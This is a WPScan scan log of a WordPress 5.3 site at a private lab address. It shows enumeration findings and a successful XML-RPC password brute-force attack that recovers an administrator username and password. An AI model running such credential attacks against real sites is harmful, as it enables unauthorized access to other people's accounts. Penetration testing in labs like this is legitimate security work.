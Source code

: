 ```
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.5.164:65535/phpcms/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.5.164:65535/phpcms/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.3 identified (Insecure, released on 2019-11-12).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.5.164:65535/phpcms/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.3'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.5.164:65535/phpcms/, Match: 'WordPress 5.3'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <==============================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - maybeadmin / $EPid%J2L9LufO5                                                                                                                     
Trying notadmin / $*Ke7q2ko3tqoZo Time: 00:00:00 <===============================================                           > (18 / 28) 64.28%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: maybeadmin, Password: $EPid%J2L9LufO5

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Jun  3 10:18:11 2024
[+] Requests Done: 184
[+] Cached Requests: 4
[+] Data Sent: 56.654 KB
[+] Data Received: 184.04 KB
[+] Memory used: 229.223 MB
[+] Elapsed time: 00:00:03
```
